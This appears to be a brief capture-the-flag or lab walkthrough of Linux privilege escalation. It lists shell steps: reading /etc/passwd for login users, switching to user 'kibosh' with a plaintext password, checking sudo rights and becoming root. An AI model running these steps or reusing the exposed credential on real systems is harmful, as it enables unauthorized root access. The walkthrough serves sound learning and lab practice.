



Privilege Escalation

Privilege Escalation

1. Run the script command
`script /dev/null`

2. Run the screen command
`screen`

3. See which users have terminal access
`cat /etc/passwd | grep /bin/bash`

4. Change to user kibosh and use the credentials from slogin. **fbX8kAx3Y7ycgnm**
`su kibosh`

5. Check if kibosh has sudo rights. Yes!
`sudo -l`

6. Switch to root user
`sudo su -`

